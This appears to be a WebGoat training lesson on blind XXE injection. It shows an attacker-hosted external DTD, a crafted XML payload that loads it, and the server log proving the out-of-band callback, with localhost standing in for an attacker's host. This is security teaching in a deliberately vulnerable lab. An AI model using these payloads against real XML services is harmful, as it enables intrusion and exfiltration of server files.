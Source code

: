 == Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference a external DTD which we control on our own server.

Our WebGoat server by default has an /xxe/ping endpoint which we can use. In real case this can be any server you control.

[source]
----
curl -i http://localhost:8080/WebGoat/XXE/ping

will result in:

GET curl/7.45.0
----

at the server side.

How do we use this endpoint to verify whether we can perform XXE?

In the `~/${user.home}/.webgoat/plugin/XXE` create a file called attack.dtd

[source]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=HelloWorld'>
----

Now submit the form and change the xml to:

[source]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/plugin_lessons/plugin/XXE/attack.dtd">
%remote;
]>
<user>
  <username>test&ping;</username>
</user>
----

Now if we check our server log we will see:

[source]
----
GET Java/1.8.0_101 HelloWorld
----

So with the XXE we are able to ping our own server which means XXE injection is possible.

[NOTE]
In this case we use http://localhost:8080/WebGoat/plugin_lessons/plugin/XXE/test.dtd to fetch the dtd but in reality this will
of course be a host fully under the attackers control.